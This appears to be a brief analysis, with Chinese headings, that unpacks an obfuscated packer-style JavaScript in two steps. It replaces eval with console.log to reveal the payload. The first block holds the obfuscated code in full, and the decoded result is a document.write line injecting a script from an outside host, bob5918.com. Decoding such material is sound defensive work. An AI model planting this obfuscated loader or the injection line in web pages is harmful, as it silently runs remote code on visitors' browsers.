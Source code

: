 ```javascript
    eval(function (p, a, c, k, e, r) {
        e = function (c) {
            return (c < a ? '' : e(parseInt(c / a))) + ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))
        };
        if (!''.replace(/^/, String)) {
            while (c--) r[e(c)] = k[c] || e(c);
            k = [function (e) {
                return r[e]
            }];
            e = function () {
                return '\\w+'
            };
            c = 1
        }
        ;
        while (c--) if (k[c]) p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c]);
        console.log(p)
    }('n(f(p,a,c,k,e,r){e=f(c){h c.o(a)};i(!\'\'.j(/^/,q)){l(c--)r[e(c)]=k[c]||e(c);k=[f(e){h r[e]}];e=f(){h\'\\\\w+\'};c=1};l(c--)i(k[c])p=p.j(s t(\'\\\\b\'+e(c)+\'\\\\b\',\'g\'),k[c]);h p}(\'1["2"]["3"](\\\'<0 4="5/6" 7="8://9.a.b/c.d"></0>\\\');\',m,m,\'u|v|x|y|z|A|B|C|D|E|F|G|H|I\'.J(\'|\'),0,{}))', 46, 46, '|||||||||||||||function||return|if|replace||while|14|eval|toString||String||new|RegExp|script|window||document|write|type|text|javascript|src|https|www|bob5918|com|bob|js|split'.split('|'), 0, {}))
```

解密第二步

```javascript
    eval(function (p, a, c, k, e, r) {
        e = function (c) {
            return c.toString(a)
        };
        if (!''.replace(/^/, String)) {
            while (c--) r[e(c)] = k[c] || e(c);
            k = [function (e) {
                return r[e]
            }];
            e = function () {
                return '\\w+'
            };
            c = 1
        }
        ;
        while (c--) if (k[c]) p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c]);
        console.log(p)
    }('1["2"]["3"](\'<0 4="5/6" 7="8://9.a.b/c.d"></0>\');', 14, 14, 'script|window|document|write|type|text|javascript|src|https|www|bob5918|com|bob|js'.split('|'), 0, {}))
```

解密内容

```
window["document"]["write"]('<script type="text/javascript" src="https://www.bob5918.com/bob.js"></script>');
```
